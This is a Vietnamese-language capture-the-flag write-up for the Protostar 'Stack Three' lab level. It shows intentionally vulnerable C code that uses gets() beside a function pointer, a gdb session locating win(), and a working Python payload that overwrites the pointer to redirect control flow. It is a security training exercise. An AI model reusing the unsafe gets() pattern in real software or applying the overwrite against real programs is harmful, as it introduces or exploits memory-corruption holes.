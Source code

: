 # STACK THREE

## About

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

  * both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Solutions

`STACK THREE` quay lại với khai thác buffer overflow thông qua hàm nhập stdin gets().

Trong source code ta thấy hàm main khai báo một con trỏ hàm `volatile int (*fp)();`, con trỏ này nhận giá trị bằng 0 và nếu được thay đổi thỏa mãn điều kiện != 0 nó sẽ được gọi và chuyển flow chương trình tới địa chỉ bằng với giá trị của nó. Và đề bài yêu cầu flow đến hàm `win()`. Vậy nên điều đầu tiên đó là tìm địa chỉ của `win()` và ghi đè nó vào con trỏ hàm fp.

Tìm đại chỉ hàm win() qua gdb:

```
root@protostar:/opt/protostar/bin# gdb -q ./stack3                                                      
Reading symbols from /opt/protostar/bin/stack3...done.                                                  
(gdb) set disassembly-flavor intel                                                                      
(gdb) p win                                                                                             
$1 = {void (void)} 0x8048424 <win>                                                                      
(gdb)  
```

Việc tiếp theo là overwrite vào biến `fp` với giá trị là địa chỉ `win()` đã tìm ra ở trên:

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "\x24\x84\x04\x08"' | ./stack3           
calling function pointer, jumping to 0x08048424                                                         
code flow successfully changed
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>



